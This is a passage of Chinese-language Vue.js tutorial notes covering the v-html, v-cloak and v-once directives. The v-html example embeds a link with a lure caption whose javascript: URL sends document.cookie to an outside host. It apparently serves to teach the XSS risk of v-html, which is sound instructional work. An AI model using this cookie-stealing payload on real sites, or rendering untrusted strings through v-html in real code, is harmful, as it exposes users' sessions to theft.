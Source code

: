 ```html
<div v-html="str2"></div>
new Vue({
	el:'#root',
	data:{
		str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
	}
})
```

#### v-cloak

```
v-cloak指令（没有值）：
	1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
	2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。
```

```html
<!-- 准备好一个容器-->
<div id="root">
	<h2 v-cloak>{{name}}</h2>
</div>
<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
<script type="text/javascript">
	console.log(1)
	Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
	
	new Vue({
		el:'#root',
		data:{
			name:'尚硅谷'
		}
	})
</script>
```

#### v-once

```
v-once指令：
	1.v-once所在节点在初次动态渲染后，就视为静态内容了。
	2.以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。
```

```html
<!-- 准备好一个容器-->
<div id="root">
	<h2 v-once>初始化的n值是:{{n}}</h2>
	<h2>当前的n值是:{{n}}</h2>
	<button @click="n++">点我n+1</button>
</div>
<script type="text/javascript">
	Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
	
	new Vue({
		el:'#root',
		data:{
			n:1
		}
	})
</script>
```
